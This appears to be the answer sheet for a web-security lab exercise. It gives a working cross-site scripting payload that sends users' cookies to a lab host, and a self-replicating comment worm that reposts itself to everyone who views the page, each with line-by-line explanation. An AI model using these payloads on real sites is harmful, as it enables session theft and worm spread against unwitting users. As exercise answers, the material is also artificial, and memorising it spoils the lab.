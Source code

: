 Answer Sheet
============

Using Javascript to steal the session ID
----------------------------------------

.. code:: javascript

  <script>
    jQuery.post(
      "http://<VM IP>:12344/?page=capture",
      {
        "cookies": document.cookie
      }
    )
  </script>


* ``document.cookie`` is the string containing the users' cookies.
  You can learn more about this string and its format
  at https://developer.mozilla.org/en-US/docs/Web/API/Document/cookie.


Extension Challenge
----------------------------------------

.. code:: javascript

  This comment will be shared automatically by every user
  who views the page...!

  <script class="evil-script">
    jQuery.post(
      "http://<VM IP>:12342/?page=comment.php",
      {
        "article_id": 1,
        "body": jQuery(".evil-script").first().parent().html()
      }
    )
  </script>


* ``jQuery`` (or ``$``) can be used as a function to search the document,
  and it returns a list of elements found using the selector string.
  The dot at the beginning of
  the string (``.evil-script``) is used to search for elements by class name.
  You can learn more about this function at http://api.jquery.com/jquery/.

* ``.first()`` is used to get only the first occurrence of the script,
  in case the page contains other scripts (or many copies of the script).

* ``.parent()`` is used to get the container of the comment, which
  includes both the script and the rest of the text of the comment.

* ``.html()`` is used to get the source code of the tag, including
  its Javascript content.

* ``This comment will be shared automatically...`` is the text of the payload
  message that will be visible to users and will be reshared automatically.
